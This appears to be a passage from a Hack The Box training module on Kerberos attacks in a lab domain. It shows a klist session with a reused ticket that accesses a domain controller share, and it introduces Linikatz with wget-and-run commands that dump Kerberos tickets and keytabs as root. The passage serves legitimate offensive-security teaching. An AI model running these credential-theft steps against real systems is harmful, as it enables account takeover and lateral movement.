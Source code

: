 ```cmd-session
C:\htb> klist

Current LogonId is 0:0x31adf02

Cached Tickets: (1)

#0>     Client: julio @ INLANEFREIGHT.HTB
        Server: krbtgt/INLANEFREIGHT.HTB @ INLANEFREIGHT.HTB
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0xa1c20000 -> reserved forwarded invalid renewable initial 0x20000
        Start Time: 10/10/2022 5:46:02 (local)
        End Time:   10/10/2022 15:46:02 (local)
        Renew Time: 10/11/2022 5:46:02 (local)
        Session Key Type: AES-256-CTS-HMAC-SHA1-96
        Cache Flags: 0x1 -> PRIMARY
        Kdc Called:

C:\htb>dir \\dc01\julio
 Volume in drive \\dc01\julio has no label.
 Volume Serial Number is B8B3-0D72

 Directory of \\dc01\julio

07/14/2022  07:25 AM    <DIR>          .
07/14/2022  07:25 AM    <DIR>          ..
07/14/2022  04:18 PM                17 julio.txt
               1 File(s)             17 bytes
               2 Dir(s)  18,161,782,784 bytes free
```

## Linikatz

[Linikatz](https://github.com/CiscoCXSecurity/linikatz) is a tool created by Cisco's security team for exploiting credentials on Linux machines when there is an integration with Active Directory. 
* In other words, Linikatz brings a similar principle to `Mimikatz` to UNIX environments.

Just like `Mimikatz`, to take advantage of Linikatz, we need to be root on the machine. 
* This tool will extract all credentials, including Kerberos tickets, from different Kerberos implementations such as FreeIPA, SSSD, Samba, Vintella, etc. 
* Once it extracts the credentials, it places them in a folder whose name starts with `linikatz.`. Inside this folder, you will find the credentials in the different available formats, including ccache and keytabs. These can be used, as appropriate, as explained above.

#### Linikatz Download and Execution

```shell-session
canklesmaks@htb[/htb]$ wget https://raw.githubusercontent.com/CiscoCXSecurity/linikatz/master/linikatz.sh
canklesmaks@htb[/htb]$ /opt/linikatz.sh
```

## Onwards
